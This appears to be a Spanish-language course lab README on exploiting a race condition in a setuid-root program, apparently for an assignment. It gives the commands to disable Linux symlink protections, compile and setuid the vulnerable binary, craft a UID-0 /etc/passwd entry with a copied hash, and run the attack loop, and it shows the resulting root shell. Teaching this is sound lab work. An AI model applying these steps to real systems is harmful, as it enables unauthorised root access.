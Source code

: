 # RaceConditionTEC

Tarea de condiciones de carrera

# Requisitos

- Ubuntu (24.10) en ARM
- vMWare Fusion o similar

# Pasos iniciales

1. Pasar archivos voip a la maquina virtual

```
# Servidor de archivos en macOS de atacante
python3 -m http.server 80

# Traer los archivos desde la maquina virtual
curl http://IP/vulp.c -o vulp.c
curl http://IP/looper.sh -o looper.sh
```

2. Eliminar protecciones de seguridad de symlinks para efectos de la tarea

```
# Esto parece restablecerse siempre por lo que es mejor ejecutarlo cada vez que se inicia la VM
sudo sysctl -w fs.protected_symlinks=0
sudo sysctl fs.protected_regular=0
```

3. Compilar el programa vulp.c, firegoblin.c y asignar permisos de setuid de root

```
gcc vulp.c -o vulp -lm
sudo chown root vulp
sudo chmod 4755 vulp

gcc firegoblin.c -o firegoblin
```

# Trabajo 1

Agregar entrada a /etc/shadow y /etc/password para un nuevo usuario root mediante un ataque al programa vulp.

1. Agregar nuevo usuario como prueba de como se agrega en /etc/shadow y /etc/password

```
# useradd pwned -m -G sudo
# passwd pwned

# cat /etc/shadow
pwned:$y$j9T$yb7F48eurkR2ZugVrkr4U/$TkSO.sGjtjyki/IlF018wo6kw7zd4nUUrhE9emRNb7C:20237:0:99999:7:::

# cat /etc/passwd
pwned:x:1001:1001::/home/pwned:/bin/sh
```

Es necesario para el ataque que este se asemeje a root y tenga los valores de 0 en /etc/passwd

Por lo que deberia verse asi:

```
# cat /etc/passwd
pwned:$y$j9T$yb7F48eurkR2ZugVrkr4U/$TkSO.sGjtjyki/IlF018wo6kw7zd4nUUrhE9emRNb7C:0:0:pwned:/root:/bin/bash
```

No es necesario editar /etc/shadow, ya que es posible realizar una entrada en /etc/passwd
por medio de utilizar un hash como contraseña, una manera de hacerlo es creando un usuario
y copiandolo el valor por medio de /etc/shadow. Ya que se tiene la contraseña en lugar de "x" es posible
no tener que modificar ambos.

2. Ejecutar el ataque

Es necesario ejecutar el ataque por medio de un loop, ya que al ser un ataque de condicion de carrera,
tiene que correrse en paralelo multiples veces hasta encontrar el exito.

```
$ ./firegoblin

// En otra terminal
$ chmod +x looper.sh
$ ./looper.sh 
```

A cierto momento se deberia recibir el mensaje de exito en la terminal de looper
y se deberia poder acceder al usuario creado y verificar que es root.

```
$ ./looper.sh 
PWNED :). El archivo /etc/passwd tiene que haber sido modificado.
$ su pwned
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /etc/passwd
pwned::0:0:pwned:/root:/bin/bash
```

